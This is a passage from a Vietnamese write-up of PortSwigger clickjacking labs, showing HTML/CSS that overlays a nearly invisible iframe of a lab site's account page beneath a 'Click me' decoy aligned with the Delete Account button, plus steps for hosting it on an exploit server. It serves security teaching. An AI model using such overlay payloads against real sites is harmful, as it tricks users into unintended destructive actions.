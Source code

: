 ```
      height:400px;
      z-index:1;
      }
  </style>
</head>
...
<body>
  <div id="decoy_website">
  ...decoy web content here...
  </div>
  <iframe id="target_website" src="https://vulnerable-website.com">
  </iframe>
</body>
```
![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_protection_deleteacc.jpg?raw=true)

Tuy nhiên để phù hợp với HTML của trang web mà chúng ta đã đăng nhập vào và tương ứng với nút DeleteAccount thì chúng ta sẽ thay đổi như sau :
```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:510px;
       left:80px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://ac061f661e51bedf80356b5100af000a.web-security-academy.net/my-account"></iframe>

```
Để đè được lên btn có sẳn trên trang web thì chúng ta phải có sự hỗ trợ của 1 exxploit server. Về tác dụng của exploit server cơ bản sẽ là giúp chúng ta đè khung HTML của chúng ta lên web site đích.
![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_protection_exploitserve.jpg?raw=true)


Sau khi store cho payload lên web site mà chúng ta muốn, chúng ta có thể view exploit để check xem btn của mình đã đè lên real btn chưa.
![img](https://github.com/datnlq/Source/blob/main/Clickjacking/image/clickjacking_protection_checkbtn.jpg?raw=true)

### Lab: Clickjacking with form input data prefilled from a URL parameter
Như mô tả thì đây là bài mở rộng của lab trên nên về cơ bản các bước chúng ta cũng làm tương tự như trên.
